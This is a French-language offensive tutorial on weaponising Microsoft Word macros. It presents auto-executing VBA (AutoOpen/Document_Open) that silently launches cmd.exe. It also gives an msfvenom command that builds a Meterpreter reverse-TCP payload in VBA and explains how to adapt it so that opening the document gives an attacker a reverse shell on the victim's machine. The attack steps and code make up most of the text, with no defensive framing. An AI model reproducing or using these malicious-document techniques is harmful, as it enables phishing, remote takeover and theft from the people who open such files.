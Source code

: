 VBA (Visual Basic for Applications), un langage de programmation mis en œuvre par Microsoft pour les applications telles que Microsoft Word, Excel, PowerPoint, etc... pour automatiser les tâches de presque toutes les interactions clavier et souris entre un utilisateur et les applications Microsoft Office.

---
#### Microsoft Word Macro
Utilise des macros pour créer des documents Microsoft malveillants:

1. Créez un nouveau document Microsoft vierge pour créer notre première `macro` .

2. Modifiez maintenant le document Word et créez une fonction macro qui exécute un `cmd.exe`  ou tout fichier exécutable,  

3. Afin d'exécuter pour automatiquement le code VBA une fois le document ouvert, nous pouvons utiliser des fonctions intégrées telles que  `AutoOpen`  et  `Document_open` . 

```javascript
Sub Document_Open()
  PoC
End Sub

Sub AutoOpen()
  PoC
End Sub

Sub PoC()
	Dim payload As String
	payload = "cmd.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

4. Il est important de noter que pour que la macro fonctionne, nous devons la sauvegarder au format _Macro-Enabled_ tel que` .doc` et  `docm` . 

5. Enregistrons maintenant le fichier en tant que modèle **`Document Word 97-2003`**


> [!NOTE] Bon a savoir
Nous pouvons combiner les VBA avec des méthodes telles que les HTA et WSH. Les VBA/macros en eux-mêmes ne contournent pas intrinsèquement les détections.

---
Créons maintenant une charge utile Meterpreter en mémoire à l'aide du framework Metasploit pour recevoir un shell inversé.

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.128 LPORT=443 -f vba
```

NB: *Une modification doit être effectuée pour que cela fonctionne.*

> Le résultat fonctionnera sur une feuille MS Excel. Par conséquent, remplacez  `Workbook_Open()` par  `Document_Open()` pour le rendre adapté aux documents MS Word.
> 
> Une fois le document MS Word malveillant ouvert sur la machine victime, nous devrions recevoir un shell inversé.
